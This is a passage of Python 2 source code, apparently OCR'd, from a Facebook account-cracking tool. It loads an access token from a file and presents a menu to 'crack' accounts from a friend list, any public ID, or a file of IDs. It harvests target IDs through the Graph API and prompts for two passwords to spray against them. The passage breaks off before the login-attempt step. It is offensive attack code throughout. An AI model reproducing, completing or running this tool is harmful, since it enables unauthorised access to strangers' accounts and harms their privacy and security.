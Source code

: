 def choice2():
	global toket
	os.system("clear")
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf login.txt")
		time.sleep(1)
		os.system("python2 Rayees.py")
	os.system("clear")
	print banner
	print ("[1] Crack From Friend List.")
	print ("[2] Crack From Any Public ID.")
	print ("[3] Crack From File.")
	print ("[0] Back")
	print ("        ")
	choice2_menu()

def choice2_menu():
	c2m = raw_input("\nChoose Option >> ")
	if c2m =="":
		print ("[!] Fill in correctly")
		choice_menu()
	elif c2m =="1":
		os.system("clear")
		print (banner)
		pass1=raw_input("[1] Input Password  : ")
		pass2=raw_input("[2] Input Password  : ")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif c2m =="2":
		os.system("clear")
		print (banner)
		idt = raw_input("[✓] Enter ID : ")
		pass1=raw_input("[1] Input Password  : ")
		pass2=raw_input("[2] Input Password  : ")
		print (47*"-")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			hamza("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\nPress Enter To Back ")
			choice2()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif c2m =="3":
		os.system("clear")
		print (banner)
		try:
			idlist = raw_input("[✓] Enter File Path : ")
			pass1=raw_input("[1] Input Password  : ")
			pass2=raw_input("[2] Input Password  : ")
			print(47*"-")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())